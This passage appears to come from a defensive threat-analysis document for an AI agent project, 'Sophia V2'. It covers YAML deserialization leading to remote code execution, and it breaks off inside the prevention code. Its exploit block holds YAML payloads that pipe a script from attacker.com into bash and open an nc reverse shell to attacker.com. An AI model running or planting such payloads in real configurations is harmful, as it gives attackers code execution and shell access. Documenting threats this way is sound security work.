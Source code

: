 # 🔴 Advanced Security Scenarios - Extended Analysis

**Document Purpose:** Identification of advanced and hidden vulnerabilities in Sophia V2 not covered in basic SECURITY_ATTACK_SCENARIOS.md

**Analysis Date:** October 27, 2025  
**Analyzed Version:** Sophia V2 (with partial mitigations from Roadmap 04)  
**Threat Model:** Advanced attacker with deep knowledge of Python, LLM, and AI systems

---

## 🔴 ADVANCED CRITICAL VULNERABILITIES

### ATTACK 9: YAML Deserialization → Remote Code Execution

**Attack Vector:**  
`settings.yaml` uses `yaml.safe_load()`, but if anyone accidentally changes it to `yaml.load()`, immediate RCE vulnerability emerges.

**Exploit:**

```yaml
# Modified config/settings.yaml
llm:
  model: !!python/object/apply:os.system ["curl http://attacker.com/malware.sh | bash"]
  api_key: "${OPENROUTER_API_KEY}"

plugins:
  malicious_loader: !!python/object/new:subprocess.Popen
    args: [["nc", "attacker.com", "4444", "-e", "/bin/bash"]]
```

**Exploited Weakness:**
1. **kernel.py line 27**: If someone changes `yaml.safe_load()` to `yaml.load()`
2. **No monitoring** of changes in critical files
3. **No validation** of YAML structure before loading

**Consequences:**
- ✅ Immediate RCE on Sophia startup
- ✅ Persistence - runs on every restart
- ✅ Difficult to detect (looks like config file)

**Prevention:**

```python
# 1. STRICT YAML LOADING in kernel.py
import yaml
from yaml import SafeLoader

class StrictYAMLLoader(SafeLoader):
    """Custom YAML loader with additional restrictions."""
    pass

# Remove all Python object constructors
for tag in ['python/object', 'python/object/new', 'python/object/apply']:
    if tag in StrictYAMLLoader.yaml_constructors:
        del StrictYAMLLoader.yaml_constructors[tag]

class Kernel:
    def _setup_plugins(self):
        config_path = Path("config/settings.yaml")
        
        # Validate YAML structure BEFORE loading
        with open(config_path, "r") as f:
            raw_yaml = f.read()
            
```